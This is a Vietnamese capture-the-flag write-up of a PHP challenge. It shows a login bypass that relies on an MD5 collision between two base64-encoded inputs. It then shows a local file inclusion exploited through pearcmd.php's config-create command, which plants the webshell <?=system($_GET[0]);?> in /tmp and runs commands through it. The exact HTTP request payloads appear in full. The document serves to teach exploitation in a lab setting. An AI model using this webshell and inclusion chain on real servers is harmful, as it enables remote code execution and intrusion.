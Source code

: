 # 1: Bypass login

```
<?php
    if(isset($_POST["submit"])){
        $username = base64_decode($_POST['username']);
        $password = base64_decode($_POST['password']);

        if(($username == $password)){
            echo 'Username and password are not the same';
        }
        else if((md5($username)===md5($password))){
            $_SESSION['username'] = $username;
            header('Location: admin.php?file=1.txt');
        } else {
            echo "Username: " . $username . "<br>";
            echo "Password: " . $password . "<br>";
            echo "Username_MD5: " . md5($username) . "<br>";
            echo "Password_MD5: " . md5($password) . "<br>";
            echo 'Username and password are wrong';
        }
    }
?>
```

Đoạn mã php trên cho ta nhập username và password với điều kiện phải khác nhau

Sau đó chương trình dùng 2 hàm 

```
$username = base64_decode($_POST['username']);
$password = base64_decode($_POST['password']);
```

để giải mã 2 đoạn mã ta nhập vào

Sau đó chương trình lại dùng hàm md5 chúng và so sánh chúng, nếu giống nhau 
ta sẽ được chuyển hướng người dùng đến trang `admin.php?file=1.txt` bằng cách sử dụng hàm `header()`.

Ok vậy ở đây làm sao để 2 chuỗi khác nhau có cùng 1 md5_hash?

search thì ta có https://crypto.stackexchange.com/questions/1434/are-there-two-known-strings-which-have-the-same-md5-hash-value

```
> md5sum message1.bin message2.bin
> 008ee33a9d58b51cfeb425b0959121c9 message1.bin
> 008ee33a9d58b51cfeb425b0959121c9 message2.bin
```
Và encode chúng ta được 2 file encode cũng là username và password

![burp.png](images/burp.png)

Ok vậy ta đã có quyền admin

# 2: RCE

```
<?php
    header('Content-Type: text/html; charset=utf-8');
    session_start();
    if($_SESSION['username'] != null){
    if(isset($_GET['file'])){
        $file = $_GET['file'];
        include($file);
    }
    }
    else{
        die("Only admin can use this");
    }
?>
```

Chú ý đến phần 

```
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}
```
Đoạn mã gán giá trị của `$_GET['file']` vào biến `$file` và sử dụng hàm `include($file)` để bao gồm nội dung của tệp tin được chỉ định. Điều này cho phép ta đưa nội dung của một tệp tin vào tệp tin hiện tại.

Ví dụ: Nếu URL chứa tham số file là `example.php?file=content.php`, thì giá trị của `$_GET['file']` sẽ là `content.php`. Đoạn mã `include($file)` sẽ chèn nội dung của tệp tin `content.php` vào tệp tin hiện tại tại vị trí đó.

Ok đầu tiên mình sẽ tạo 1 file và gửi content (webshell) vào file vừa tạo bằng phương thức get 

https://w4rsp1t3.moe/2021/11/26/%E5%85%B3%E4%BA%8E%E5%88%A9%E7%94%A8pearcmd%E8%BF%9B%E8%A1%8C%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E7%9A%84%E4%B8%80%E4%BA%9B%E6%80%BB%E7%BB%93/

GG search thì ta thấy với file `pearcmd.php`

pearcmd.php (hay peclcmd.php) là một công cụ quản lý tiện ích mở rộng bằng command line

![pear.png](images/pear.png)

Ở đây có rất nhiều cmd của pear và với `config-create` ta có thể tạo file mới với 2 tham số đó là đường dẫn đến file pearcmd.php và đường dẫn đến file cần tạo

Đây chính là đoạn mã để ghi và tạo file

```
GET /admin.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=system($_GET[0]);?>+/tmp/asddddd.php HTTP/1.1
```

`/tmp/asddddd.php`: Đường dẫn đến file vừa tạo

`<?=system($_GET[0]);?>`: Content chứa hàm thực thi `system()`

`/usr/local/lib/php/pearcmd.php`: Tham số file với đường dẫn đến `pearcmd.php`

Khi mã này được thực thi, nội dung của tệp tin `pearcmd.php` sẽ được `import` vào tệp tin `admin.php`. Nội dung của tệp tin `pearcmd.php` sẽ được xử lý như mã PHP thường, tương tự như nội dung của `admin.php`. và khi đó ta sẽ thực thi được câu lệnh tạo file như trên với nội dung truyền vào là `<?=system($_GET[0]);?>`

![burp1.png](images/burp1.png)

Vậy là đã tạo được file `asddddd.php` tại đường dẫn /tmp

Tiếp đến chạy đến đường dẫn đó và thực thi lệnh cat flag thôi

```
GET /admin.php?file=/tmp/asddddd.php&0=cat+/flagViTen.txt HTTP/1.1
```

![flag.png](images/flag.png)